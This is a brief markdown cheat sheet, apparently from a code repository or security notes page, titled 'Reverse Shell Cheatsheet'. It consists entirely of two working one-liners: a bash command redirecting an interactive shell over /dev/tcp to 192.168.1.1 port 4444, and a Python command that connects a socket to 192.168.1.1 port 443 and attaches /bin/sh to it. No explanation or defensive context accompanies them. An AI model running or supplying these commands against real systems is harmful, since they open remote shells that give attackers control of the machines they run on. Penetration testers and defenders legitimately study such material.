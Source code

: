#### Reverse Shell Cheatsheet

* BASH
```
bash -i >& /dev/tcp/192.168.1.1/4444 0>&1
```

* PYTHON
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.1",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
